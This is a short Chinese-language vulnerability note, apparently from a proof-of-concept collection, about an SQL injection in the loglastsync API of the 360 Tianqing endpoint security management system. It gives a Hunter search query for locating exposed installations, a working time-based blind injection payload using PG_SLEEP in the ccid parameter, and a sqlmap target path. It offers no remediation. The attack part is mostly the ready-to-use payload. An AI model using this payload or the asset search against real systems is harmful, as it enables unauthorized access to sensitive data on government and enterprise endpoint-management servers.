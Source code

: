 # 360天擎终端安全管理系统loglastsync存在SQL注入漏洞

# 一、漏洞简介
天擎终端安全管理系统是面向政企单位推出的一体化终端安全产品解决方案。该产品集防病毒、终端安全管控、终端准入、终端审计、外设管控、EDR等功能于一体，兼容不同操作系统和计算平台，帮助客户实现平台一体化、功能一体化、数据一体化的终端安全立体防护;奇安信360天擎loglastsync存在SQL注入漏洞，攻击者可通过此漏洞获取敏感信息。

# 二、影响版本
+ 360天擎终端安全管理系统

# 三、资产测绘
+ hunter`app.name=="天擎终端安全管理系统"`
+ 特征

![1699415110944-92dd0793-44ec-4b3a-8b0c-cddf0465a695.png](./img/4AK_mPZiZs3AUv9h/1699415110944-92dd0793-44ec-4b3a-8b0c-cddf0465a695-052369.png)

# 四、漏洞复现
```plain
/api/dp/loglastsync?ccid=1') AND 9421=(SELECT 9421 FROM PG_SLEEP(5)) AND ('crvL'='crvL
```

![1701002054713-6bc9dfc4-e8cb-4675-9bfe-76902dc2cc03.png](./img/4AK_mPZiZs3AUv9h/1701002054713-6bc9dfc4-e8cb-4675-9bfe-76902dc2cc03-612883.png)

sqlmap

```plain
/api/dp/loglastsync?ccid=1
```

![1701002087316-de0d5792-7b7c-4d76-b094-3b25d08c9ce5.png](./img/4AK_mPZiZs3AUv9h/1701002087316-de0d5792-7b7c-4d76-b094-3b25d08c9ce5-887312.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lcp8zauczcyost59>